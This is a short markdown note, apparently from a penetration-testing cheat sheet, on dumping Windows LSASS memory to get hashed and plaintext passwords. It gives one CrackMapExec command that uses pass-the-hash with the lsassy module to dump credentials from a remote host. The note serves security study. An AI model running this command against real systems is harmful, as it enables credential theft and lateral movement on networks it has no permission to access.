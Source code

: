 # Dumping LSASS

Local Security Authority Subsystem Service (LSASS) is the process on Microsoft Windows that handles all user authentication, password changes, creation of access tokens, and enforcement of security policies. This means the process stores multiple forms of hashed passwords, and in some instances even stores plaintext user passwords.

```bash
cme smb $ip -u $user_admin -H $hash -M lsassy --local-auth
```

## More

{% embed url="https://pentestlab.blog/tag/lsass/" %}
